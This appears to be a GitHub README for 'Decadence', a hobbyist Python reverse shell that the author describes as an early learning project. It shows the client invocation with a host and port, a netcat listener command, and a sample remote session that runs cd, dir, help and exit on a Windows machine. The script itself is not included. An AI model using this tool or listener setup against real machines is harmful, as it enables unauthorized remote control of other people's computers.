 # Decadence - Python Reverse Shell

So this was one of my earllyyy projects when I was first learning python. 

I decided to come back and fix it up a little bit. 


Essentially, the name says it all. It is a python reverse shell script. 

I've focused this one on providing the functionality client-side. Nothing special yet, just 'cd' but its a good example of what you could implement.  


## Usage

- Step 1 - Set up a listener
- Step 2 - Be silly enough to run this 
- Step 3 - Run it


### Client Side

Simple, pass the arguments! 

```

usage: decadence.py [-h] --host HOST --port PORT
decadence.py: error: the following arguments are required: --host, --port

PS D:\GitHub\decadence> py .\decadence.py --host 127.0.0.1 --port 223

```

I've only tested this with netcat as the listener. 

### Server Side

```
root@#######:~# nc -nvlp 223
Listening on [0.0.0.0] (family 0, port 223)
Connection from xx.xx.xx.xx 52877 received!

connected!   

user account:
desktop\pitticus

decadence> 

```

### Crazy built-in functionality?! 

- cd - That's right, you can change directory
- help - Incase you forget you can change directory
- exit - Because we all want to quit sometimes

```
decadence> cd C:\temp

decadence> dir
 Volume in drive C is Blade SSD
 Volume Serial Number is E02A-5775

 Directory of C:\temp

02/06/2020  08:26 PM    <DIR>          .     
02/06/2020  08:26 PM    <DIR>          ..    
               0 File(s)              0 bytes
               2 Dir(s)  169,325,039,616 bytes free

decadence>

```

```
decadence> help

        built-in support
--------------------------------
cd - change directory
exit - closes the connection

```

```
decadence> exit
root@vultr:~# 

```

